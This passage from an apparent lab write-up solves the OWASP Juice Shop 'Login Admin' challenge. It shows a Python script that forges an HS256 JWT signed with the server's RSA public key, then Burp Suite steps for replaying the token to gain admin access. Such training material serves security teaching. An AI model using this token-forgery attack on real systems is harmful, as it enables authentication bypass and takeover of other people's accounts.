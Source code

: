 📌 Output: `public.pem` → the RSA public key, now usable as an HMAC secret.

---

## 🧪 Step 3: Forge JWT Using HS256

### 🔧 `03_forge_token.py`

```python
import jwt

with open('public.pem', 'rb') as f:
    public_key = f.read()

# JWT payload with escalated privilege
payload = {
    "email": "admin@juice-sh.op"
}

# Create HS256 token signed with public key as secret
token = jwt.encode(payload, public_key, algorithm='HS256')

print(f"[+] Forged token:\n{token}")

with open("forged_token.txt", "w") as f:
    f.write(token)
```

📌 Output: `forged_token.txt` → the forged token that grants **admin access**.

---

## 📍 Step 4: Replay via Burp Suite (Manual)

### 🛠️ Steps:

1. Open Burp and go to **Proxy > Intercept**.
2. Intercept a login request using a regular user account.
3. In the HTTP request headers, locate:

   ```
   Authorization: Bearer eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9...
   ```
4. Replace the JWT value with the contents of `forged_token.txt`.

   ```
   Authorization: Bearer <your_forged_token>
   ```
5. Forward the request.

### 📊 Result:

* You’ll now be authenticated as **[admin@juice-sh.op](mailto:admin@juice-sh.op)**.
* Navigate to `/score-board` to confirm that **“Login Admin” challenge** is marked **SOLVED ✅**.

---